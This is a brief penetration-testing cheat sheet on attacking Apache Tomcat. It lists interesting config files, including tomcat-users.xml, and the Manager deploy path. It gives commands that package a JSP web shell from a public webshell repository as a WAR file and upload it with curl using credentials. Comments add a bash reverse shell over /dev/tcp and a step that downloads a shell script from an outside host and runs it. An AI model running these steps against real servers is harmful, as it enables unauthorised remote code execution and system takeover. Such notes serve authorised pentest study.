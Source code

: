 # Tomcat

### Introduction

Apache **Tomcat** is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies.
**Tomcat** provides a "pure Java" HTTP web server environment in which Java code can run.

Following files could be interesting:
- /usr/share/tomcatX/etc/tomcat-users.xml
X=version
- /conf/server.xml
- /conf/web.xml

### AJP Connector

The **AJP Connector** element represents a Connector component that communicates with a web connector via the AJP protocol.

Within some version of Apache, by default the Manager is only accessible from a browser running on that machine.

##### War file upload

In order to see if it's there, check the following path
http://*IP*/manager/text/deploy

You will need to create a .war file by going on  https://github.com/tennc/webshell

jsp/cmdjsp.jsp

```bash
zip cmdjsp.jsp cmdjsp.war # Convert JSP to War file
curl -T cmdjsp.war -u 'username:password' http://IP:PORT/manager/text/deploy?path=/myapp # Post the war file
# Navigate to http://IP:PORT/app2/cmdjsp.jsp
# Or do a POST through Burp Suite with a shell.sh 
# bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
# like CMD=curl IP:PORT/shell.sh -o /tmp/sh 
# CMD=bash /tmp/sh
```
- **JSP** is a collection of technologies that helps software developers create dynamically generated web pages based on HTML, XML, SOAP, or other document types.
- **WAR** is the extension of a file that packages a web application directory hierarchy in ZIP format and is short for Web Archive.